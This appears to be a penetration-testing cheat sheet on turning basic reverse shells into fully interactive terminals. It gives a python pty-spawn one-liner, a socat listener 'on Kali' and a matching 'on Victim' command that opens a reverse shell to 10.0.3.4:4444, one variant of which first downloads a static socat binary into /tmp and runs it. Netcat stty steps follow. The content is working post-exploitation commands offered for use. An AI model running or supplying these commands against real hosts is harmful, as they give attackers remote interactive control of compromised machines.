 # web ttys
- https://github.com/maxmcd/webtty

# python
```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

# socat
On Kali (listen):
```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
```

On Victim (launch):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

# netcat
Send `nc` to background
Check the term name and size on local machine with:
```
echo $TERM
stty -a
```
```
stty raw -echo  
```
`fg` to being `nc` back up
```
reset
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

> https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
